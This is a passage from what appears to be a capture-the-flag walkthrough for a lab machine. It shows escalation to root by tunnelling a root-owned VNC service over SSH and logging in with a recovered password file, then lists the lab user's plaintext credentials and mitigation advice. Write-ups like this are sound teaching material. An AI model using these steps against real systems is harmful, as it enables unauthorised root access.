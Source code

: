 We can see it is run as root:

```bash
ps aux
```

![image.png](image%2022.png)

```bash
ssh -L  5901:127.0.0.1:5901 charix@$IP
```

And as we know `vncviewer` will request a password file, I am gonna supply secret file to it.

```bash
vncviewer -passwd secret 127.0.0.1:5901
```

As you can see now we are root:

![image.png](image%2023.png)

VNC password file can also be decrypted using [scripts](https://github.com/trinitronx/vncpasswd.py) that are available out there.

## Credentials

```bash
charix : Charix!2#4%6&8(0
```

## Mitigation

- **Sanitize user input** to prevent LFI and log poisoning; use whitelisting and proper path handling.
- Avoid storing **plaintext or reversible encoded passwords**; use salted hashes and secrets management tools.
- Restrict **VNC access** and avoid running it as root; if necessary, enforce strong authentication and network restrictions.
- Regularly audit and limit **SSH and service exposure**, especially for services bound to localhost with elevated privileges.
- Use **file permission hardening** to prevent unauthorized access to sensitive files (like zipped archives containing credentials).
